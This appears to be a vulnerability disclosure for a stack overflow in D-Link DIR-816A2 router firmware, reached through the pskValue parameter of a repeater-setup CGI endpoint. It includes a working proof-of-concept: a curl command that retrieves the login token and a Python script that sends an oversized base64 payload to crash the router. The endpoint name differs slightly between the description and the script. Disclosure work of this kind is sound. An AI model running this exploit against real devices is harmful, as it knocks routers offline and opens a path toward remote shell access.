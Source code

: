 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2Wl5RepeaterStep2.cgi.  With the setRepeaterSecurity function,the contents obtained by the pskValue parameter are passed to V13, and then the contents matched by V13 are decoded and put into the V19 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2RepeaterStep2.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '6',
    'authType': 'a',
    'pskValue': payload
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell

